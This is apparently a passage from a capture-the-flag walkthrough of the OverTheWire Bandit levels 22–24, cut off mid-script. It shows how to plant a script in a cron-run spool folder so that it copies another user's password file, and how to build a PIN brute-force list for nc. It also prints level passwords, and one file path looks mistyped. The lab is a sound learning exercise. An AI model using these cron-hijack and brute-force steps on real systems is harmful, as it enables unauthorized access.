 What the script is doing is first put the username into the variable `myname`, then use `myname` to obtain `mytarget`. The content of the password is stored at `/tmp/$mytarget`. We know that `myname` is `bandit23` (since `bandit23` is executing the cronjob), hence we can generate the target of the script `mytarget` by simply doing `echo I am user bandit23 | md5sum | cut -d ' ' -f 1`. 

This gives the result of `mytarget`, and the file we are looking for is at `/tmp/8ca319486bfbbc3663ea0fbe81326349`

bandit23: `QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G`

# Bandit 23

Same procedure as Bandit 21 and 22, we try to get the content of the script in the cronjob.
What the script in the cronjob does is obvious, it tries to execute all the scripts in the `/var/spool/bandit24/foo` folder. We will create a temporary folder to store the result of the script by doing `mkdir /tmp/kdkdkd`

`vim test.sh` to make the script. The script will look like this:

```
#!/bin/bash
cat /etc/bandit_passs/bandit_24 > /tmp/kdkdkd/pass
```

This should be relatively straightforward. However, for some reason the script does not run if the `pass` file does not exist. This may be due to some permission error (as may be the user `bandit24` is not able to make a new file in the folder `/tmp/kdkdkd` of `bandit23`). Hence we need to do `touch /tmp/kdkdkd/pass` followed by `chmod 666 /tmp/kdkdkd/pass` to allow everyone to write to the `pass` file.

After a minute, doing `cat pass` will provide the password for the next level.

bandit24: `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`

# Bandit 24
Some interesting things to remember:

`seq -f "%0${PADDING}g" $MIN $MAX` gives a sequence of 4-digit strings with the given padding (4) from `MIN` to `MAX`

If we want to send messages in batch in bash script, with every message on a new line. Redirecting this into `nc` will provide us effectively the result of executing each message one by one.

`awk '!/{STRING_IN_HERE}/'` print out every line that does not have `STRING_IN_HERE`. We can sort out the result after running `nc`, as most likely the line that contains the password for the next level does not contain the message when we key in the wrong password. "Wrong!" is one such string in the wrong password message.

String concatenation of variable `a` and `b` is `$a$b`

To run the script, do `mkdir /tmp/qvinh`, then `cd /tmp/qvinh` (any name for the folder in `/tmp` works). Open `vim` or any text editor then copy the code underneath. Remember to `chmod +x` the shell script.

```
#!/bin/bash

PASS="VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar "

MIN=0
MAX=9999
PADDING=4

touch test.txt
for i in $(seq -f "%0${PADDING}g" $MIN $MAX); do
GUESS="$PASS$i"
echo $GUESS >> test.txt
done
```